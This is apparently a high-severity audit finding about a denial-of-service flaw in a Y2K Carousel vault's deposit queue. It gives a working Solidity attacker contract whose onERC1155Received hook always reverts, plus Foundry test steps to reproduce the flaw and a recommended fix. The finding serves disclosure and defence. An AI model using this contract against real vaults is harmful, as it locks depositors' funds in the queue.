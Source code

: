 0xRobocop

high

# The depositQueue can get DoSed

## Summary

Due to an unsafe external call on the `_mint()` function a user can break the `depositQueue`.

## Vulnerability Detail

When the `mintDepositInQueue()` function is executed, it process all the deposits in the `depositQueue` in a FILO order. Eventually, the `_mintShares()` function is called, which calls the `_mint()` function of the `ERC1155.sol` contract, with `queue[i].receiver` as the `to` parameter.

At the end of the `_mint()` function, the `_doSafeTransferAcceptanceCheck()` function is called, this function makes an external call to `to`, which is an address chosen arbitrarily by the depositor, if this is a contract. This contract can fail on purpose to revert the execution of the `mintDepositInQueue()` function.

## Impact

Because the deposits are never processed and hence the vault shares never minted, there is no a viable way to take out the tokens sent by the depositors that decided to use the `queueDeposit`.

Changing the `controller` to call the `sendTokens()` function on the vault does not work since the vault can only send tokens up to an amount equal to `finalTVL[epochId]` which is equal to the `totalSupply` of the vault shares for the given epochId.

A way to take the tokens out from the contract is by changing the `controller` and calling the `setClaimTVL()` function with an amount (like if they won the epoch) that allows the users who have vault shares to withdraw them via the `withdraw()` function (because their shares are worth more). But there is no guarantee these users will send back the tokens.

Because the `depositQueue` follows a FILO order, the only affected entries are the ones previous to the attacker deposit, but because the cost of the attack is too low (the minimum cost is the `relayerFee`), the attacker can place multiple entries to affect the most users.

## Proof of Concept

Create the next contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

interface Carousel2 {
  function deposit(uint256 id, uint256 assets, address receiver) external;
  function mintDepositInQueue(uint256 epochId, uint256 operations) external;
}

interface ERC202 {
  function balanceOf(address account) external returns(uint256);
  function approve(address spender, uint256 amount) external returns(bool);
}

contract BreakDepositQueue {

  Carousel2 public collateralVault;
  Carousel2 public premiumVault;

  ERC202 public underlyingAsset;

  constructor(address _collateralVault, address _premiumVault, address _underlyingAsset) {
    collateralVault = Carousel2(_collateralVault);
    premiumVault = Carousel2(_premiumVault);

    underlyingAsset = ERC202(_underlyingAsset);
  }

  function breakDepositQueue(uint256 epochId) external {
    uint256 balance = underlyingAsset.balanceOf(address(this));
    
    underlyingAsset.approve(address(premiumVault), balance);

    callDepositPremium();
  }

  function callDepositPremium() internal {
    premiumVault.deposit(0, underlyingAsset.balanceOf(address(this)), address(this));
  }

  function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes memory
    ) public returns (bytes4) {

      revert();       
    }
}
```

Then create a test on the `EndToEndCaraouselTest.t.sol` file.

1. Import the attacker contract: `import "../../../src/attacker/BreakDepositQueue.sol";`
2. Add to the state variables `BreakDepositQueue public breakDepositQueueContract;`
3. Add at the end of the `setUp()` function:
```solidity
breakDepositQueueContract = new BreakDepositQueue(
            collateral,
            premium,
            UNDERLYING
        );

deal(UNDERLYING, address(breakDepositQueueContract), 1 ether, true);
```
4. Add the following function test:
```solidity
function testBreakingDepositQueue() public {
        // USER joins the depositQueue
        vm.startPrank(USER);

        vm.warp(begin - 1 days);

        IERC20(UNDERLYING).approve(premium, 18 ether);
        Carousel(premium).deposit(0, 18 ether, USER);
       
        vm.stopPrank();

        // USER2 joins the depositQueue
        vm.startPrank(USER2);

        vm.warp(begin - 1 days);

        IERC20(UNDERLYING).approve(collateral, 10 ether);
        Carousel(collateral).deposit(0, 10 ether, USER2);

        vm.stopPrank();

        // Attacker breaks the depositQueue
        vm.warp(begin - 1 days);
        // Assert the balance of the attacker contract
        assertEq(1 ether, IERC20(UNDERLYING).balanceOf(address(breakDepositQueueContract)));

        breakDepositQueueContract.breakDepositQueue(epochId);

        // Attacker contract has 0 balance now
        assertEq(0, IERC20(UNDERLYING).balanceOf(address(breakDepositQueueContract)));

        premiumQueueLength = Carousel(premium).getDepositQueueLenght();
        vm.expectRevert();
        Carousel(premium).mintDepositInQueue(epochId, premiumQueueLength);
    }
```
5. Run `forge test --match-contract EndToEndCarouselTest --match-test testBreakingDepositQueue`.

## Code Snippet

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L334

## Tool used

Manual Review

## Recommendation

Remove `_doSafeTransferAcceptanceCheck()` from `_mint()`.

